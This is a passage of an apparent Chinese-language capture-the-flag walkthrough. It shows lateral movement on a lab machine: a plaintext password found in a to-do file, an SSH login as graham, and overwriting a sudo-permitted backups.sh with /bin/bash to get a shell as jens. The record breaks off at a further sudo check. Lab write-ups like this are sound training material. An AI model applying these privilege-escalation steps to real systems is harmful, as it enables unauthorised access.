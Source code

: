 在服务器一通查询，发现在 /home/mark/stuff 目录下有个 things-to-do.txt 文件

查看一下发现居然有服务器账号和密码

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGYmdPbDUvc4ltpRlY7TpbvAzOAXtFqHOpx0Svc7RDYfKqFsiaCdMs0fA/640?wx_fmt=png)

graham - GSo7isUM1D4- done

尝试 ssh 登录

```
ssh graham@127.0.0.1
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGjpx2pL5cJRo3HSricpQV2VJPKooq58rAaZwpYxbJKBhfFLqarEa6ESg/640?wx_fmt=png)

登录成功

在 / home/jens 文件下看到 backups.sh 脚本

执行

```
sudo -l
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGNnjm8wBZXSNXD7ZmlF0KfsCfs9VyPE4xQf3vlN3K5prnb7TOzJwsibg/640?wx_fmt=png)

发现无密码执行权限，利用这个 sh 脚本可以直接获取到 jens 的 shell

执行一下命令

```
#将脚本中的内容清空
cat /dev/null > backups.sh

#将/bin/bash写入backups.sh文件中
echo "/bin/bash" >> backups.sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYG7DQcpkuI7S7gGZeuqU1diaGskUQ4fpYAClVsZKPoDvibkq6tOeR2FTqA/640?wx_fmt=png)

执行

```
#使用jens用户执行sh脚本文件即可获取shell
sudo -u jens ./backups.sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGfas9EG8o9bbrAQz7WCSWYznnWWjVKiasRpdqBxkUqefoRVvXaFpiaWFw/640?wx_fmt=png)

成功拿到 jens 用户的 shell

执行

```
#查看jens权限
sudo -l
```
